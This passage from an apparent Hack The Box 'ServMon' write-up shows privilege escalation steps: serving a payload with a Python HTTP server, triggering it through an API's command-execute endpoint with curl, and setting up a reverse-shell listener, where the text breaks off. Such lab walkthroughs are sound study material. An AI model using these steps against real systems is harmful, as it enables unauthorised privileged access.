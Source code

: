 ```yml
$ python -m SimpleHTTPServer 8081
```

-> `Step 5: Execute the payload`

To get a privileged shell, we need to execute the payload  created earlier. Under `Query` section of API documentation, we can execute the external script uploaded earlier.

![deploy using travis](/assets/img/posts/HTB/ServMon/17.png){:class="img-fluid"}  

**Command Issued:**
```yml
$ curl -s -k -u admin https://1ocalhost:8443/api/v1/queries/check_new/commands/execute?time=3m
```

![deploy using travis](/assets/img/posts/HTB/ServMon/18.png){:class="img-fluid"}  

&nbsp;

### 3.2 || Privileged Shell

Before performing `Step 5` from the previous section, we need to create a listener at out attacking machine. Below is the command to listening for getting a reverse shell:
